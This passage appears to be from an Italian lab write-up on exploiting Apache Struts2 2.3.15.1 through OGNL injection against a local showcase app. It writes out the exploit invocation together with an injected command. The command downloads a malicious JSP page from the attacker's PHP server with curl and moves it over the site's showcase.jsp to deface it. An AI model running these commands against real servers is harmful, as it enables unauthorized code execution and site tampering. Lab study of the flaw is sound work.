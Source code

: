 Fig. 6 

Lo script stampa tutti i file contenuti all'interno di una cartella del server remoto.

Una volta craftato lo script che esegue l'exploit ho deciso di effettuare un attacco di sostituzione della pagina web con un'altra scaricata direttamente dalla macchina dell'attaccante. In questo modo si ha un effettivo riscontro visuale sulle conseguenze dell'attacco visto che basta aggiornare la pagina web dopo aver lanciato lo script per vedere che la pagina del sito è cambiata. 
Per attuare questo tipo di attacco la prima cosa che ho fatto è stata creare un semplice server PHP (sulla macchina che attacca il server) che funge appunto da server da cui il server attaccato scarica la pagina web malevola. 
Ho quindi creato una semplice pagina web (in formato .jsp) che verrà sostituita a quella standard del server remoto e ho chiamato tale file pwn-page.jsp. In seguito ho eseguito il seguente comando nella stessa cartella in cui pwn-page.jsp è presente:
- `php -S <host-ip>:5555`
dove `host-ip` è l'indirizzo IP della macchina locale.

Fatto ciò ho eseguito lo script in questo modo:
```
python exploit.py localhost:8080/struts2_2.3.15.1-showcase/showcase.action 'curl -O 
http://<host-ip>:5555/pwn-page.jsp; source /root/.bashrc; mv ./pwn-page.jsp $CATALINA_HOME/webapps/struts2_2.3.15.1-showcase/showcase.jsp;'
```
dove:
- `python`: esegue l'exploit contenente l'espressione OGNL 
- `curl`: scarica il file pwn-page.jsp dal server php "remoto" che ho creato
- `source`: preleva la variabile $CATALINA_HOME dal file .bashrc
- `mv`: scambia il file showcase.jsp con il file pwn-page.jsp scaricato
- `host-ip`: IP della macchina locale

Il comando scarica il file pwn-page.jsp direttamente dal server PHP che ho creato sulla macchina locale, preleva la variabile di sistema `$CATALINA_HOME` dal file `.bashrc` e sostituisce il file scaricato a quello che il server utilizza, servendosi della variabile `$CATALINA_HOME` prelevata in precedenza contenente parte del path al file da sostituire.

Prima dell'esecuzione dello script:
</br>

![Pasted_image_20250115204046_resize.png](./images/Pasted_image_20250115204046_resize.png)
